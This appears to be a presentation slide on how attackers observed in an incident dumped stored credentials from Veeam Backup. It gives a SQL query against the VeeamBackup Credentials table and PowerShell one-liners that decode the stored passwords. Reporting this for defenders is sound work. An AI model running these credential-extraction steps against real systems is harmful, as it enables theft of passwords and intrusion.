

# Dumping user passwords
Attackers dump credentials using a number of methods (e.g., Mimikatz, LSASS, etc.) but have you seen attackers use the backup software Veeam?
We observed the attackers using the Veeam service account for interactive logins
SQL query1:
SELECT TOP (1000) [id],[user_name],[password],[usn],[description],[visible],[change_time_utc]
FROM [VeeamBackup].[dbo].[Credentials]
PowerShell one-liners to decode the Veeam password
> Add-Type –Path “C:\Program Files\Veeam\Backup and Replication\Backup\Veeam.Backup.Common.dll”
> $encoded = ‘<encoded string>’
> [Veeam.Backup.Common.ProtectedStorage]::GetLocalString($encoded)
1 https://forums.veeam.com/veeam-backup-replication-f2/recover-esxi-password-in-veeam-t34630.html